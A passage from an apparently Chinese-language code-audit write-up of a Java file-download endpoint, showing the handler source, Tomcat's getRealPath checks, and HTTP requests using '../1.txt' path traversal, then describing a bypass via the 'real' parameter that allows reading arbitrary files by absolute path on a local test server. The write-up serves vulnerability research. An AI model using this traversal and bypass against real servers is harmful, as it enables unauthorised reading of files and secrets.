    BufferedOutputStream bos = null;

    // 解码
    fileName = URLDecoder.decode(fileName, DEFAULT_CHARSET.name());
    logger.info("下载文件的名称:{}", fileName);
    if (null == real || !real) {
        fileName = request.getServletContext().getRealPath(fileName);
    }
    logger.info("下载文件的绝对路径" + fileName);
    File file = null;
    try {
        file = new File(fileName);
    } catch (Exception e) {
    }
    if (null != file && file.exists() && file.isFile()) {
        // 获取文件的长度
        long fileLength = file.length();

        // 设置文件输出类型
        try {
            response.setContentType(MediaType.APPLICATION_OCTET_STREAM_VALUE);
            String name = file.getName();
            if (null == real || !real) {
                name = name.length() > 13 ? name.substring(13) : name;
            }
            response.setHeader("Content-disposition",
                    "attachment; filename=" + URLEncoder.encode(name, DEFAULT_CHARSET.name()));
            // 设置输出长度
            response.setHeader("Content-Length", String.valueOf(fileLength));
            // 获取输入流
            bis = new BufferedInputStream(new FileInputStream(file));
            // 输出流
            bos = new BufferedOutputStream(response.getOutputStream());
            byte[] buff = new byte[2048];
            int bytesRead;
            while (-1 != (bytesRead = bis.read(buff, 0, buff.length))) {
                bos.write(buff, 0, bytesRead);
            }
            // 关闭流
        } catch (Exception e) {
            throw new RRException("下载错误,请重试!");
        } finally {
            if (null != bis) {
                bis.close();
            }
            if (null != bos) {
                bos.close();
            }
        }
    } else {
        throw new RRException("未找到资源");
    }
}
```

尝试发送请求

这个点一开始还是卡了一下

```
GET /file/download?name=1.txt HTTP/1.1
Host: 127.0.0.1:7878
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: MAIN_MENU_COLLAPSE=false; DG_USER_ID_ANONYMOUS=e5dbe5efa486485aa7d6260b97b1fe1d; PUBLICCMS_ADMIN=1_6c1a761a-4f04-4c9a-85b9-b23cfd4a95fb; bjui_theme=blue
Connection: keep-alive
```



知道了大概的路径后我就开始尝试路径穿越了

```
GET /file/download?name=../1.txt HTTP/1.1
Host: 127.0.0.1:7878
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: MAIN_MENU_COLLAPSE=false; DG_USER_ID_ANONYMOUS=e5dbe5efa486485aa7d6260b97b1fe1d; PUBLICCMS_ADMIN=1_6c1a761a-4f04-4c9a-85b9-b23cfd4a95fb; bjui_theme=blue
Connection: keep-alive
```

但是在

```
fileName = request.getServletContext().getRealPath(fileName);
```

我们跟进

```
public String getRealPath(String path) {
    String validatedPath = this.validateResourcePath(path, true);
    return this.context.getRealPath(validatedPath);
}
```

首先验证我们的路径是否合法

```
private String validateResourcePath(String path, boolean allowEmptyPath) {
    if (path == null) {
        return null;
    } else if (path.length() == 0 && allowEmptyPath) {
        return path;
    } else if (!path.startsWith("/")) {
        return GET_RESOURCE_REQUIRE_SLASH ? null : "/" + path;
    } else {
        return path;
    }
}
```

就是为我们的路径多加了一个/


然后

```
public String getRealPath(String path) {
    if ("".equals(path)) {
        path = "/";
    }

    if (this.resources != null) {
        try {
            WebResource resource = this.resources.getResource(path);
            String canonicalPath = resource.getCanonicalPath();
            if (canonicalPath == null) {
                return null;
            }

            if ((resource.isDirectory() && !canonicalPath.endsWith(File.separator) || !resource.exists()) && path.endsWith("/")) {
                return canonicalPath + File.separatorChar;
            }

            return canonicalPath;
        } catch (IllegalArgumentException var4) {
        }
    }

    return null;
}
```

在这里就会返回 null，因为得不到绝对路径了

但是我们发现是可以绕过的，因为它是在 if 判断条件里面的

```
if (null == real || !real) {
    fileName = request.getServletContext().getRealPath(fileName);
}
```



我们尝试传入后，然后自己设置一个绝对路径



可以看到已经不会再去判断了





成功的读取到了文件的内容
